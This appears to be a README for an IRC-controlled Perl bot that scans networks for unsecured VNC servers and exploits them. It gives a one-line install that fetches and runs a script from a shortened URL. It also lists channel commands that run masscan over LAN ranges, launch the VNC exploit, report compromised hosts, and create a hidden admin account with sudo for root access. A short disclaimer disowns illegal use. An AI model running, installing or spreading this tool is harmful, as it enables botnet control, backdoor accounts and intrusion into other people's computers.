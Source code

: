 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.

# ---INSTALLATION---

wget https://is.gd/perlvncbot && sh perlvncbot

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

